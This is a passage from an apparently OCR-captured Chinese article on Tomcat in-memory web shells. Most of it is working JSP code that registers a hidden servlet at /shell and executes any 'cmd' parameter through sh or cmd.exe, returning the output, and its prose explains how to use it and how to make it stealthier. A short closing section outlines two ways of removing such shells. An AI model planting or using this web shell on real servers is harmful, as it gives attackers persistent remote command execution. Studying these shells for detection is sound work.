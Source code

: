 ```JAVA
            String cmd = servletRequest.getParameter("cmd");
            boolean is Linux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh","-c",cmd} : new String[]{"cmd.exe","/c",cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {
        }
};
%>
<%
    // 获取StandardContext
    org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase =(org.apache.catalina.loader.WebappClassLoaderBase)Thread.currentThread().getContextClassLoader();
    StandardContext standardCtx = (StandardContext)webappClassLoaderBase.getResources().getContext();
    // 用Wrapper对其进行封装
    org.apache.catalina.Wrapper newWrapper = standardCtx.createWrapper();
    newWrapper.setName("jweny");
    newWrapper.setLoadOnStartup(1);
    newWrapper.setServlet(servlet);
    newWrapper.setServletClass(servlet.getClass().getName());
    // 添加封装后的恶意Wrapper到StandardContext的children当中
    standardCtx.addChild(newWrapper);
    // 添加ServletMapping将访问的URL和Servlet进行绑定
    standardCtx.addServletMapping("/shell","jweny");
%>
```

执行上述代码后，访问当前应用的/shell路径，加上cmd参数就可以命令执行了。使用新增servlet的方式就需要绑定指定的URL。如果我们想要更加隐蔽，做到内存马与URL无关，无论这个url是原生servlet还是某个struts action，甚至无论这个url是否真的存在，只要我们的请求传递给tomcat，tomcat就能相应我们的指令，那就得通过注入新的或修改已有的filter或者listener的方式来实现了。

## 0x5 内存马查杀

**方法一：**清除内存马中的Filter的恶意代码。这种方式相对通用简单一些，直接适配所有中间件。
**方法二：**模拟中间件注销Filter。这种方式相对要复杂一些，因为每种中间件注销Filter的逻辑不尽相同，需要一一适配。
